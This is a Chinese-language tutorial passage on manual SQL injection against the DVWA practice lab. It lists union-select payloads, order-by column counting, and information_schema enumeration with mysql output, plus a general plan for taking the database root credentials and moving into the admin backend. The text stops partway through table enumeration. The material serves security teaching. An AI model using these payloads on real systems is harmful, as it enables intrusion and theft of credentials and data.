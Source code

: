 ## 0x10 union select联合查询
在SQL注入中，可以通过union select 确定数据库信息回显位置，并执行相应的攻击操作。union select联合查询结果必须与前一个查询结果有相同字段数，否则无法正常显示。
```bash
mysql> select * from users union select 1,2,3,4;
+----+----------+----------+-------------------+
| id | username | password | email             |
+----+----------+----------+-------------------+
|  1 | admin    | 123456   | moon@moonsec.com  |
|  2 | moonsec  | 123456   | admin@moonsec.com |
|  3 | moonsec  | 123456   | admin@moonsec.com |
|  1 | 2        | 3        | 4                 |
+----+----------+----------+-------------------+
4 rows in set (0.00 sec)
```
## 0x11 SQL注入常规利用思路
1. 首先寻找注入点，结合工具和手工判断；
2. 通过注入点，尝试获取数据库用户名、数据库名、连接数据库用户权限、操作系统信息、数据库版本等相关信息；
3. 猜解关键数据库表及其重要字段与内容（如存放管理员账户的表名、字段名等信息）；
4. 获取数据库的root账号与密码；
5. 通过拿到的用户信息找后台登录，利用后台进行进一步渗透；

## 0x12 SQL手工注入常规思路
1. 寻找注入点，判断是否存在注入，字符型还是数字型；
2. 猜解查询结果的字段数，利用order by N；
3. 确定显示字段的位置和顺序；
4. 获取当前数据库名->数据表名->字段名；
5. 查询敏感数据信息； 

## 0x13 SQL手工注入过程详解
```bash
# 1.确定字段数
order by 3 #报错，表示可以显示2行字段

# 2.猜解数据库
'1' union select 1,database()
# payload另一种方式：
'1' union select user(),database(),version() #根据字段个数确定回显信息
mysql> select first_name,password from users union select user(),database();
+----------------+----------------------------------+
| first_name     | password                         |
+----------------+----------------------------------+
| admin          | 5f4dcc3b5aa765d61d8327deb882cf99 |
| Gordon         | e99a18c428cb38d5f260853678922e03 |
| Hack           | 8d3533d75ae2c3966d7e0d4fcc69216b |
| Pablo          | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| Bob            | 5f4dcc3b5aa765d61d8327deb882cf99 |
| root@localhost | dvwa                             |
+----------------+----------------------------------+
6 rows in set (0.00 sec)

# PS：union select结合了两个select查询结果，根据上面的 order by 语句我们知道查询包含两列
# 为了能够实现两列查询结果，我们需要用union查询结合我们构造的另外一个select。
# 注意在使用 union 查询的时候需要和主查询的列数相同。

# 3.知道数据库名之后，我们要猜解表名
mysql>  select first_name,password  from users where user_id = 1 union select 1,group_concat(table_name) from information_schema.TABLES where table_schema = 'dvwa';
+------------+----------------------------------+
| first_name | password                         |
+------------+----------------------------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99 |
```